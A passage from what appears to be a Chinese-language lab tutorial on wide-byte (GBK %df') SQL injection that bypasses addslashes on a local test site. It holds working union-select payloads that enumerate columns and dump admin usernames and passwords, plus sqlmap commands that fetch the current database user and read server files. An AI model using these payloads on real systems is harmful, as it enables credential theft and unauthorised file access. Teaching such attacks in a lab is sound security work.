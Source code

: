 由于存在addslashes转义了单引号，如果在table_schema中继续使用单引号包裹数据库名字，就会报错，这时候需要使用十六进制编码来避免这个问题。

##### 3. 获取admin表的字段
column_name表示获取字段名
```url
http://127.0.0.1/index.php?id=-1 %df' union select 1,2,group_concat(column_name)  
from information_schema.columns where table_name=0x61646d696e -- '
```
![12](https://image.3001.net/images/20180316/15211810262911.png!small)

table_name 需要使用十六进制编码

##### 4. 获取 admin 表的数据
```url
http://127.0.0.1/index.php?id=-1 %df' union select 1,2,concat(name,char(58),pass) from admin -- '
```
![13](https://image.3001.net/images/20180316/15211810344824.png!small)
数据获取到了，可以更深入一下，比如进行文件的读取，提权等操作。

##### 5. 获取当前用户信息
此次会用到工具SQLMAP，sqlmap是一个SQL注入工具。此一具在业界称为神器。sqlmap是用python语言编写，如果想对工具详细了解，请到官网了解。

下载和使用
> - http://sqlmap.org/
> - http://blog.csdn.net/whatday/article/details/54766536

本实验用到sqlmap，以下是用sqlmap工具操作。使用sqlmap工具第一步猜用户

```shell
python sqlmap.py -u "127.0.0.1/index.php?id=1 %df'" --current-user
```
![14](https://image.3001.net/images/20180316/15211810431922.png!small)

看到是root用户，可以更方便的搞事情了。

##### 6. 读服务器中的文件
sqlmap 中--file-read参数，可以读取服务器端任意文件
```shell
python sqlmap.py -u "127.0.0.1/index.php?id=1 %df'" --file-read="./index.php"
```
![15](https://image.3001.net/images/20180316/15211810501173.png!small)

已经将文件保存到了本地/root/.sqlmap/output/127.0.0.1/files文件夹下

正常思路，接下来可以进行提权了，由于该环境是搭建在windows下的，使用--file-write参数进行写文件的操作不能执行，这里就不做演示了。

### 4.2 实验2
为了方便演示该注入的过程，搭建一下环境
链接：https://pan.baidu.com/s/1WC4D-3o-A7uYAi8w_yQ7sA 密码：sbwy
数据库名为test，数据库的编码全部为gdk
![16](https://image.3001.net/images/20180316/15211810576597.png!small)

将 index.php 放到 phpStudy 的 WWW 目录下，将 test.sql 文件导入到数据库中即可
